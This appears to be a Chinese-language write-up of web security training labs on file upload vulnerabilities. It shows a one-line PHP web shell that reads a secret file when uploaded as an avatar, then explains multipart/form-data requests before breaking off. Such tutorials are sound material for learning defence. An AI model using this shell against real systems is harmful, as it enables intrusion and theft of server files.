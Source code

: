 ## 1、利用不受限制的文件上传漏洞上传Web shell

目标：窃取文件 `/home/carlos/secret` 的内容

在个人主页有上传头像的地方，上传`shell.php`，内容如下：

```php
<?php echo file_get_contents('/home/carlos/secret');?>
```

在显示头像的地方看看头像是怎么获取的

![image-20250817223947680](assets/image-20250817223947680.png)

然后访问：

```
https://0aa900a203a0d23f887340ad005e0055.web-security-academy.net/files/avatars/shell.php
```

## 2、利用文件上传验证缺陷

### 理论：

提交 HTML 表单时，浏览器通常会使用内容类型 `application/x-www-form-url-encoded` 的 `POST` 请求来发送提供的数据。这种方式适合发送简单的文本，例如您的姓名或地址。但是，它不适合发送大量二进制数据，例如整个图像文件或 PDF 文档。在这种情况下，内容类型 `multipart/form-data` 是首选。

multipart/form-data 是一种 MIME 类型，用于在 HTTP 请求中同时发送多个部分的数据（例如文件和文本字段）。

假如对于一个上传邮箱地址和头像的表单，它的请求包的请求体内容是这样的：

```
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="avatar"; filename="xgboost_performance_zh (2).png"
Content-Type: image/png
………………图片内容
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="csrf"

eZo1UbTmFx4lYfnrcxJGiNZ5d8fuiwko
------WebKitFormBoundarygbzvCPdCoJ7uhIoA--
```

请求体被分隔成多个部分，每个部分由一个边界字符串（WebKitFormBoundarygbzvCPdCoJ7uhIoA）分隔。（边界字符串是随机生成的）

```
------WebKitFormBoundarygbzvCPdCoJ7uhIoA
Content-Disposition: form-data; name="avatar"; filename="xgboost_performance_zh (2).png"
Content-Type: image/png
………………图片内容
```

